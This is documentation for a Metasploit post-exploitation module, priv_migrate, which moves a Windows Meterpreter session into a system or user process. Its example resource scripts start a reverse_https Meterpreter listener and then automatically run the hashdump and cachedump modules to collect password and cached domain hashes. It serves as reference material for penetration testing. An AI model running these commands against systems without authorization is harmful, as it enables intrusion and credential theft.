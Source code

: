 ## Overview
This module evaluates a Windows Meterpreter session's privileges and migrates the session accordingly. The purpose of this module is to enable the scripting of migrations post exploitation, which allows you to immediately run post modules that require system rights.  

You can use this module in situations where incoming sessions may have mixed rights levels and the session needs to be migrated appropriately for additional post modules to run. It is also useful in situations where migration needs to occur within a short period after the session is created. 

The types of migrations that occur are described below: 

- A session with admin rights is migrated to a system owned process. 
- A session with user rights is migrated to a user level process. If a specified user level process is not running, the module will spawn it and then migrate the session. 

This module is a nice addition to the beginning of an autorun script for post-Meterpreter session creation. An example of an autorun script is provided below.

## Module Options
- **ANAME** - This option allows you to specify a system level process that the module attempts to migrate to first if the session has admin rights. 
- **NAME** - This option allows you to specify the user level process that the module attempts to migrate to first if the session has user rights or if admin migration fails through all of the default processes.  
- **KILL** - This option allows you to kill the original process after a successful migration. The default value is FALSE.

## Module Process
Here is the process that the module follows:

- Retrieves the privilege information for the current session.
- If the session has admin rights, it attempts to migrate to a system owned process in the following order:
    - ANAME (Module option, if specified)
    - services.exe
    - winlogon.exe
    - wininit.exe
    - lsm.exe
    - lsass.exe
- If it is unable to migrate to one of these processes, it drops to user level migration.
- If the session has user rights, it attempts to migrate to a user owned process in the following order:  
    - NAME (Module option, if specified)
    - explorer.exe
    - notepad.exe
- If it cannot migrate, it attempts to spawn the process and migrates to the newly spawned process.

## Using This Module with AutoRun Scripts
The use of autorun scripts with this module is an easy way to automate post-exploitation for incoming Meterpreter sessions. The following section describes the basic setup information and provides a script example to show how this module comes in handy.

### Basic Setup Information
Resource file (.rc) scripts can be used to automate many processes in Metasploit, particularly starting up the  console and running scripts once a session is created.

Startup scripts are executed using the following example where startup.rc is the startup script, and it is located in the user's home directory. Startup scripts are executed once the Metasploit Framework is loaded.

```
./msfconsole -r /home/user/startup.rc
```

The following is an example startup script that fires up a Meterpreter listener and specifies an autorun script that will be executed when a new session is created. In this example auto.rc is the script to be run after session creation.

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.1.101
set LPORT 13002
set ExitOnSession false
set AutoRunScript multi_console_command -rc /home/user/auto.rc
exploit -j
```

### AutoRun Script Example
This example is a script that will use priv_migrate to migrate the session based on session rights. After migration, it executes modules that will retrieve user password hashes and cached domain hashes. Each one of the hash dump modules requires system rights to be successful. Priv_migrate makes it possible to execute these modules in an autorun script. For sessions with user rights, the hash dump modules will fail, but that is unlikely to impact the state of the session.

```
run post/windows/manage/priv_migrate
run post/windows/gather/hashdump
run post/windows/gather/cachedump
```
